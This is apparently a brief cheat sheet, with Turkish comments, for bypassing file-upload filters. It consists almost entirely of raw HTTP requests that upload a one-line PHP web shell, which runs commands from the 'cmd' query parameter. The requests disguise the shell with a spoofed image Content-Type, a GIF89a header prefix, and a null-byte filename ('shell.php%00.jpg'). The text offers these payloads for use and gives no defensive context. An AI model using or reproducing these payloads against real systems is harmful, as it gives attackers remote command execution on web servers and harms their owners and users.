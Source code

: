 ```
POST /upload.php HTTP/1.1
Content-Type: multipart/form-data; boundary=---------------------------

---------------------------
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>
---------------------------

GIF89a; <?php system($_GET['cmd']); ?>


```
Content-Type olarak image/jpeg, image/png veya image/gif kullanabilirsiniz


yada nullbyte:
```
POST /upload.php HTTP/1.1
Content-Disposition: form-data; name="file"; filename="shell.php%00.jpg"
Content-Type: image/jpeg

<?php system($_GET['cmd']); ?>```
